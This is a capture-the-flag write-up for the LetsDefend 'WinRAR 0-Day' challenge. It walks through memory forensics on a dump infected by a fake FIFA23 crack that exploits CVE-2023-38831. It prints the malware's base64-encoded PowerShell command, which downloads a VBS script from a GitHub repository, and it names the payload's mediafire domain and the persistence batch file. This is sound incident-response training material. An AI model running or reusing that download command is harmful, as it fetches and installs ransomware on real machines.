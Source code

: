 # [LetsDefend - WinRAR 0-Day](https://app.letsdefend.io/challenge/winrar-0-day)
Created: 03/04/2024 9:09
Last Updated: 03/04/2024 10:48
* * *
<div align=center>

**WinRAR 0-Day**
![0daa668d9de0fe509e74ee432dcb56d4.png](/_resources/0daa668d9de0fe509e74ee432dcb56d4.png)
</div>
It appears that there are numerous cracked versions of popular games available. However, it seems we may have downloaded the wrong one, as it exhibits suspicious behavior. We require your assistance in investigating this matter.

Tools Required:
1- Volatility3
2- Cyberchef

Memory dump: `/root/Desktop/Winny.vmem`

This challenge prepared by [@MMOX](https://www.linkedin.com/in/0xMM0X)
* * *
Read about this [vulnerability](https://blog.securelayer7.net/analysis-of-cve-2023-38831-zero-day-vulnerability-in-winrar/) first to gain an insight about this 0-day and here is [POC](https://medium.com/@mohammedthoufeeq_25137/winrar-rce-cve-2023-38831-zeroday-latest-4593ebcd6b33) of this vulnerability

## Start Investigation
> What is the suspected process?

![d82ab32c2f8d6d2ee3907347b83e3252.png](/_resources/d82ab32c2f8d6d2ee3907347b83e3252.png)
We got vmem file as an evidence file and volatility 3 to analyze this memory file
![09ef290ea8c7c033669c8ca073e0f9c4.png](/_resources/09ef290ea8c7c033669c8ca073e0f9c4.png)
used plugin `windows.pstree` to show process tree, there are 2 WinRAR.exe under explorer.exe which matchs name and scenario of this challenge.
```
WinRAR.exe
```

> We suspect that the crack had another name. Can you find the old name of that crack?

![0d0ddecbe55f92369ebc6500246934c6.png](/_resources/0d0ddecbe55f92369ebc6500246934c6.png)
used `windows.cmdline` plugin, you can see that winrar was used to open suspicious rar file.
```
b6wzzawS.rar
```

> What is the new crack filename?

![aabee5c11b91d7945920d18a714b2528.png](/_resources/aabee5c11b91d7945920d18a714b2528.png)
I used filescan plugin piped into text file then filter with Downloads folder, you can see that there is 1 suspicious rar file there and its FIFA23CRACK which make sense since Fifa23 is a football game.
```
FIFA23CRACK.rar
```

> What is the command that executed the remote request?

We got an offset/virtual address of the suspicious cracked game archive so we can use dumpfile plugin to dump this file out
![a156d2f8cebefb5da4d43a72e6842c9f.png](/_resources/a156d2f8cebefb5da4d43a72e6842c9f.png)
![92d7c0d371685f101649db9fe379c624.png](/_resources/92d7c0d371685f101649db9fe379c624.png)
I used strings to see how many files had been compressed into this file and there are 2 files
![a7dceaad688df5cd2903c3f5e183ccdb.png](/_resources/a7dceaad688df5cd2903c3f5e183ccdb.png)
Then I used 7z to extract those file out
![4294fd48bd4c6bdc54097dd1b2aa08f4.png](/_resources/4294fd48bd4c6bdc54097dd1b2aa08f4.png)
First file is PNG file in disguise which also make sense because in this CVE, user needed to click ReadMe.txt first then malicious command inside cmd file will be executed
![90d42cb211ae8617e58f3754ad5bbcbe.png](/_resources/90d42cb211ae8617e58f3754ad5bbcbe.png)
Here is the malicious powershell command 
```
powershell.exe -EncodedCommand SW52b2tlLVdlYlJlcXVlc3QgLVVyaSAnaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL0Vsc2ZhN0VsNGEyeS9TZWNyZXRXZWFwL21haW4vU2Q0cUF4MjEudmJzJyAtT3V0RmlsZSAiJGVudjpURU1QXFNkNHFBeDIxLnZicyI=
```

> The external link has a username. What is it?

![e4f5480e544a040200fa7072aff627c5.png](/_resources/e4f5480e544a040200fa7072aff627c5.png)
Decode base64 strings, you can see that this is a command to download vbs script from github
```
Elsfa7El4a2y
```

> It seems the creator of that ransomware uploaded a file to the cloud. Can you find which domain it was downloaded from?

[Here](https://bazaar.abuse.ch/sample/0352598565fbafe39866f3c9b5964b613fd259ea12a8fe46410b5d119db97aba) is the link to sample, Download it and analyze it using any text editor.
![7a8c1b4cceb5c9d94efc3a99b46451ce.png](/_resources/7a8c1b4cceb5c9d94efc3a99b46451ce.png)
You can see that this script used HTTP request to somewhere, We need to decode that weird suspiciously long string and we also need to know what OwOwO function does
![547367ba6a95b49c8a3a125acfe8ff66.png](/_resources/547367ba6a95b49c8a3a125acfe8ff66.png)
![d54973dca73045a475b74e334af55285.png](/_resources/d54973dca73045a475b74e334af55285.png)
so its to make HEX to ASCII
![d7f53b9f2d7e5fae3c1af02ba3facead.png](/_resources/d7f53b9f2d7e5fae3c1af02ba3facead.png)
come back to replace, we need to know which strings to be replace and what is the new replacing string is 
![618d7df2f05b8788c8f857d5c42f206e.png](/_resources/618d7df2f05b8788c8f857d5c42f206e.png)
Use Find / Replace recipe on Cyberchef, we got Hex
![7c2f7ee1ac6012a86d52b1cf82956e29.png](/_resources/7c2f7ee1ac6012a86d52b1cf82956e29.png)
Then use From Hex, We finally got an url
```
download850.mediafire.com
```

> The attacker left the file behind in someplace to come back later for the device. What is the full location of this file?

![f2030d812337abbe6e28a583fdcaa19b.png](/_resources/f2030d812337abbe6e28a583fdcaa19b.png)
You can see that there is .savetofile function here with Reverse string and replace string, that string also look like base64 too
![15ebf5eb7a19e70eed02fe6098f1a885.png](/_resources/15ebf5eb7a19e70eed02fe6098f1a885.png)
We can use Find / Replace with From Base64 to decode, the result is the file that was created to stay persistence. 
```
c:\windows\temp\B4cKL4T3R.bat
```

* * *
## Summary

Culprit of this incident is FIFA23CRACK.rar which was designed to exploit CVE-2023-38831 vulnerability by baiting user to click ReadMe.txt inside WinRAR program and then it will executed malicious powershell command from other file inside rar archive file which lead to download ransomware to a system.
<div align=center>

![c37d5ed8681fdc882caf844554587ee3.png](/_resources/c37d5ed8681fdc882caf844554587ee3.png)
</div>

* * *
